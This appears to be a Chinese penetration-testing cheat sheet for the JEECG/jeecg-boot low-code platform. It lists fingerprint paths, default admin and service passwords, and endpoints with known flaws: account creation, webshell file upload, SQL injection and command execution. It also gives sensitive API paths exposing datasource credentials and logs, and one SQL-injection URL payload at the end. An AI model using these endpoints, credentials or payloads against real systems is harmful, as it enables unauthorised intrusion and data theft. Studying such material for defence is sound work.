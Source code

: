 JEECG(J2EE Code Generation)是开源的代码生成平台，目前官方已停止维护。
**注：Jeecg 与 Jeecg-boot 非相同应用。** Jeccg官方地址为：https://gitee.com/jeecg/jeecg
^


jeecg-boot是一个基于SpringBoot的低代码开发平台CMS，号称最具影响力。



特征：
/system/
/sys/
/jeecg-boot/
/jeecg-boot/sys/
/jeecg-boot/sys/common/upload

演示站细看：<http://boot3.jeecg.com/login>

JEECG的默认登录账号密码如下：
1. [账号：admin，密码：123456](http://idoc.jeecg.com/1275933)[](http://idoc.jeecg.com/1275933)[](https://www.cnblogs.com/CHENJIAO120/p/7079300.html)
2. [账号1：jeecg，密码1：jeecg#123456；账号2：qinfeng，密码2：jeecg#123456](http://jeecg.com/doc/demo)[](http://jeecg.com/doc/demo)
3. [在jeecg-cloud-nacos中，nacos鉴权的默认用户名密码为nacosnacos](https://segmentfault.com/a/1190000045065819)[](https://segmentfault.com/a/1190000045065819)
4. [在在线接口文档swagger中，登录名为jeecg，密码为jeecg1314](http://doc.jeecg.com/2043926)[](http://doc.jeecg.com/2043926)

^
## **存在多个历史漏洞**
工具：<https://github.com/R4gd0ll/I-Wanna-Get-All>
<https://my.oschina.net/jeecg/blog/10150942>
<https://xz.aliyun.com/t/15138?time__1311=GqjxuQD%3DeYqeqGNDQi5BKKdgzwxAKGC%2BCeD>

接口文档泄露：
/jeecg-boot/v2/api-docs

账号创建漏洞：
/jeecg-boot/server/sys/user/addy

任意文件上传，可以传webshell：
/jeecg-boot/commonController.do?parserXml

SQL注入：
1）/sys/duplicate/check
2）/sys/ng-alain/getDictItemsByTable/
3）/sys/diet/query/TableData
4）/jmreport/qurestSql

RCE：
/jeecg-boot/jmreport/queryFieldBySql
/jeecg-boot/jmreport/loadTableData
/jeecg-boot/jmreport/testConnection
/jeecg-boot/api/../jeecgFormDemoController

如：/jeecg-boot/jmreport/loadTableData命令执行：
<https://blog.csdn.net/qq_36334672/article/details/136025263>
设置token(可选)和请求体，响应包里有命令执行结果。


^
jdbc


^
工具：<https://mp.weixin.qq.com/s/loTo06eNhyUIxUIPGJQuzg>


^
敏感接口
```
数据源：
/monitor/datasource
/jeecgboot/sys/dataSource/list?

看指定数据库的账号密码:
/jeecgboot/sys/dataSource/queryById?id=1209779538310004737

OSS存储数据列表：
/jeecgboot/sys/oss/file/list

第三方配置：
/jeecgboot/sys/thirdApp/getThirdConfigByTenantId




字典
/jeecgboot/sys/dict/list?column=createTime&order=desc


用户列表
/jeecgboot/sys/user/listAll
/jeecgboot/sys/user/list



流程监听
/jeecgboot/act/process/extActListener/list


网关路由
/jeecgboot/sys/gatewayRoute/list



数据日志
/jeecgboot/sys/dataLog/list
登录日志
/jeecgboot/sys/log/list?logType=1
操作日志
/jeecgboot/sys/log/list?logType=2
异常日志
/jeecgboot/sys/log/list?logType=4


请求追踪，最近的请求
/jeecgboot/actuator/httptrace-new/all
/jeecgboot/actuator/httptrace-new/succes

在线用户
/jeecgboot/sys/online/list


```
漏洞
```
报错或账号密码查询
/jeecg-boot/sys/ng-alain/getDictItemsByTable/'%20from%20sys_user/*,%20'/x.js
```